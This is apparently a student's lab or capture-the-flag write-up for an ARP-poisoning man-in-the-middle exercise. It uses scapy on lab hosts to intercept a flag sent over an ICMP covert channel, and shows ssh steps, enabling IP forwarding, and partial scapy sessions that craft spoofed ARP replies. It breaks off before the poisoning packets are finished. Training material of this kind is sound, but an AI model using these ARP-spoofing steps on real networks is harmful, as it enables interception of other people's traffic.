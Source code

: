 -----------------
# Task 1 - packet manipulation - ARP
Data is being sent to T3 from an unknown source over an ICMP covert channel. Use scapy to perform a MitM using ARP to capture this data.

On T2 edit the /proc/sys/net/ipv4/ip_forward file to enable IP Forwarding. Change the value from 0 to 1.

On T2 open scapy as root.

Create the Ethernet Header (Ether) and change the ether-type to the hex value for ARP.

Create the ARP header (ARP) to Poison T4

Create the ARP header (ARP) to Poison T3

Send your crafted headers using sendp.

Intercept the flag being sent over the network.

Use TCPDUMP or Wireshark to capture the FLAG using icmp and host 172.16.82.115 capture filters to minimize the traffic.

The mission prompt will provide the target details.

1. ssh student@10.50.39.177 -X
2. ssh 172.16.82.106 #this gets you into bluehost1 (T2)
3. cat /proc/sys/net/ipv4/ip_forward #gotta make sure it equals 1
4. sudo scapy
Now actually starting scapy stuff
1. Lookign at the challenge, we have to "Create the Ethernet Header (Ether) and change the ether-type to the hex value for ARP."
```
>>> a = Ether()
>>> a
<Ether  |>
>>> a.show()
WARNING: Mac address to reach destination not found. Using broadcast.
###[ Ethernet ]### 
  dst       = ff:ff:ff:ff:ff:ff
  src       = fa:16:3e:a0:65:dd
  type      = 0x9000

>>> a.type=0x0806
>>> a.show()
WARNING: Mac address to reach destination not found. Using broadcast.
###[ Ethernet ]### 
  dst       = ff:ff:ff:ff:ff:ff
  src       = fa:16:3e:a0:65:dd
  type      = ARP
```

2. "create the Arp header to poison T4(Blue-pop router)"
```
>>> b.op=2
>>> b.show()
###[ ARP ]### 
  hwtype    = 0x1
  ptype     = IPv4
  hwlen     = None
  plen      = None
  op        = is-at
  hwsrc     = fa:16:3e:a0:65:dd
  psrc      = 172.16.82.106
  hwdst     = 00:00:00:00:00:00
  pdst      = 0.0.0.0

```